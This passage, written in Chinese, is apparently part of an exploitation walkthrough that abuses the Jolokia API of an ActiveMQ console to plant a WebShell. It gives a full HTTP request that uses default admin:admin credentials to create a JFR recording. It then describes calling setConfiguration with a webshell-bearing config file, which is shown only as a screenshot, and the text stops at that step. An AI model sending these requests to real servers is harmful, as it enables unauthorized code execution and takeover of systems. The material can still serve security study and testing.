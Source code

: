 **构造数据包：**

1、调用newRecording，获取ID为1

```http
POST /api/jolokia/ HTTP/1.1
Host: 172.23.80.196:8161
Origin:172.23.80.196:8161
Authorization: Basic YWRtaW46YWRtaW4=
Content-Type: application/json

{
    "type": "EXEC",
    "mbean": "jdk.management.jfr:type=FlightRecorder",
    "operation": "newRecording",
    "arguments": []
}
```

![image-20231201133945413](assets/1705390067-1ef626391230b08a4042fca38d700cf4.png)

2、调用setConfiguration构造包含WebShell的配置文件，注意需要把xml数据的双引号转义并去除换行

![image-20231201134832579](assets/1705390067-ce9c143f0ddb86be479649a247dc7c0c.png)
